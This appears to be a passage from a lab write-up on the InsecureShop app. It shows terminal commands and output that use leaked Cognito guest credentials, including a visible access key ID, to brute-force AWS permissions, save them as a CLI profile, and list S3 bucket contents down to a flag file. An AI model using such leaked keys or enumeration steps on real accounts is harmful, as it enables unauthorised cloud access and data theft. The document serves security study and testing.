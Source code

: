 ```bash
┌──(root㉿kali)-[/opt/enumerate-iam] 
└─$ python3 exploit.py
2024-09-05 19:38:23,136 - 62112 - [INFO] Starting permission enumeration for access-key-id "ASIARL4ASLIPYKJEFBIL"
2024-09-05 19:38:24,436 - 62112 - [INFO] -- Account ARN : arn:aws:sts::094222047775:assumed-role/Cognito_InsecureshopUnauth_Role/CognitoIdentityCredentials
2024-09-05 19:38:24,436 - 62112 - [INFO] -- Account Id  : 094222047775
2024-09-05 19:38:24,436 - 62112 - [INFO] -- Account Path: assumed-role/Cognito_InsecureshopUnauth_Role/CognitoIdentityCredentials
2024-09-05 19:38:26,286 - 62112 - [INFO] Attempting common-service describe / list brute force.
2024-09-05 19:38:28,041 - 62112 - [INFO] -- s3.list_buckets() worked!
2024-09-05 19:38:33,659 - 62112 - [INFO] -- dynamodb.describe_endpoints() worked!
2024-09-05 19:38:33,950 - 62112 - [ERROR] Remove globalaccelerator.describe_accelerator_attributes action
2024-09-05 19:38:36,357 - 62112 - [ERROR] Remove codedeploy.list_deployment_targets action
2024-09-05 19:38:36,944 - 62112 - [ERROR] Remove codedeploy.get_deployment_target action
2024-09-05 19:38:37,227 - 62112 - [ERROR] Remove codedeploy.batch_get_deployment_targets action
```

- We Noticed that we have access to S3 buckets `s3.list_buckets()`.
- So Our script will add all extracted information to the `/root/.aws/credentials` to create a profile with the name `iam` that will allow us to access the S3 buckets and use these sessions with further AWS commands.

Let’s enumerate which buckets we have access to and then get the content of all of them: 

```bash
┌──(root㉿kali)-[/opt/enumerate-iam] 
└─$ aws s3 ls --profile iam   
2024-07-18 13:05:53 elasticbeanstalk-us-west-2-094222047733
2020-11-15 19:31:10 elasticbeanstalk-us-west-2-094222047775
2022-11-12 20:42:24 geolocation-pocfiles

┌──(root㉿kali)-[/opt/enumerate-iam]
└─$ aws s3 ls s3://elasticbeanstalk-us-west-2-094222047733 --recursive --human-readable --summarize --profile iam

Total Objects: 0
   Total Size: 0 Bytes
                        
┌──(root㉿kali)-[/opt/enumerate-iam]
└─$ aws s3 ls s3://elasticbeanstalk-us-west-2-094222047775 --recursive --human-readable --summarize --profile iam
2022-03-22 19:06:59    1.9 KiB Misconfiguration of Misconfiguration task lol - https://t.me/lasagnahowto , https://uvicorn.github.io <- writeup here
2023-09-12 05:40:12    9 Bytes hainv15.txt
2023-07-18 20:56:23  279 Bytes pwned.txt

┌──(root㉿kali)-[/opt/enumerate-iam]
└─$ aws s3 ls s3://geolocation-pocfiles --recursive --human-readable --summarize --profile iam
2024-01-29 15:53:40   53 Bytes flag.txt
2022-11-12 20:43:53    1.0 KiB geo.html
2022-11-12 20:43:52  898 Bytes geo.js
```
